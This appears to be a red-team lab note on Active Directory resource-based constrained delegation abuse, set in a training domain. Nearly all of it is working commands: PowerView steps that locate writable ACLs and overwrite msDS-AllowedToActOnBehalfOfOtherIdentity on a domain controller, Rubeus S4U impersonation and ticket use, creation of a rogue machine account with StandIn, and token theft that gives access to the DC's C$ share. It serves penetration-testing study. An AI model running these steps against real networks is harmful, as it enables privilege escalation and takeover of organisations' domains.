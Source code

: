 > This abuse checks whether we have writing permissions on another computers (ACLs) and overwrites the msDS-AllowedToActOnBehalfOfOtherIdentity
> We need one of the following properties: WriteProperty, GenericAll, GenericWrite or WriteDacl

> This makes it much more likely to present itself as a privilege escalation / lateral movement opportunity

We need to things:

- A target computer on which you can modify msDS-AllowedToActOnBehalfOfOtherIdentity.
- Control of another principal that has an SPN.

In other words, Elevated access on ANY machine, and that elevated access must be with a user that is part of the group DEV\Developers, which is the group that has access WriteProperty on All

# First we query domain computers and read their ACL

```bash
powershell Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|GenericWrite|GenericAll|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }

ObjectDN               : CN=DC-2,OU=Domain Controllers,DC=dev,DC=cyberbotic,DC=io (on the DC)
ActiveDirectoryRights  : Self, WriteProperty (rights here)
ObjectAceType          : All (over all properties)
ObjectSID              : S-1-5-21-569305411-121244042-2357301523-1000 (SID of object that is allowed)

```

# Check which group this is

```bash
powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
DEV\Developers
```

---

# We then use the SID of our compromised Computer and add it to msDS-AllowedToActOnBehalfOfOtherIdentity

```bash
# Get SID
powershell Get-DomainComputer -Identity wkstn-2 -Properties objectSid
objectsid
---------
S-1-5-21-569305411-121244042-2357301523-1109

# Convert the content to  binary format
$rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"
$rsdb = New-Object byte[] ($rsd.BinaryLength)
$rsd.GetBinaryForm($rsdb, 0)

# Update the value
powershell $rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"; $rsdb = New-Object byte[] ($rsd.BinaryLength); $rsd.GetBinaryForm($rsdb, 0); Get-DomainComputer -Identity "dc-2" | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity' = $rsdb} -Verbose

powershell Get-DomainComputer -Identity "dc-2" -Properties msDS-AllowedToActOnBehalfOfOtherIdentity
```

---

# Next we use the WKSTN-2$ account to perform s4u impersonation

```bash
# Get tickets
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

# Dump WKSTN-2$ ticket for krbtgt
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap

# Use that ticket to impersonate a user
exeute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:WKSTN-2$ /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /ticket:doIFuD[...]5JTw== /nowrap

# Use the user tgs ticket for nlamb to start a process and store the token
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGcD[...]MuaW8=
steal_token 1234
```

---

# In case we did not have access to an SPN, we can create our own machine (of course we still need to be a user of Developers)

```bash
# Check if we can create Computers
powershell Get-DomainObject -Identity "DC=dev,DC=cyberbotic,DC=io" -Properties ms-DS-MachineAccountQuota

# Create a computer
execute-assembly C:\Tools\StandIn\StandIn\StandIn\bin\Release\StandIn.exe --computer EvilComputer --make

[?] Using DC    : dc-2.dev.cyberbotic.io
    |_ Domain   : dev.cyberbotic.io
    |_ DN       : CN=EvilComputer,CN=Computers,DC=dev,DC=cyberbotic,DC=io
    |_ Password : oIrpupAtF1YCXaw

# Calculate hash with computer password
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe hash /password:oIrpupAtF1YCXaw /user:EvilComputer$ /domain:dev.cyberbotic.io

# Use the aes256 hash to ask for a tgt
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:EvilComputer$ /aes256:7A79DCC14E6508DA9536CD949D857B54AE4E119162A865C40B3FFD46059F7044 /nowrap

# Use that ticket for s4u to impersonate a user
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:EvilComputer$ /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /ticket:doIFuD[...]5JTw== /nowrap

# Create a process with the received ticket
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGcD[...]MuaW8=

# Steal token
steal_token 4092
ls \\dc-2.dev.cyberbotic.io\c$

```
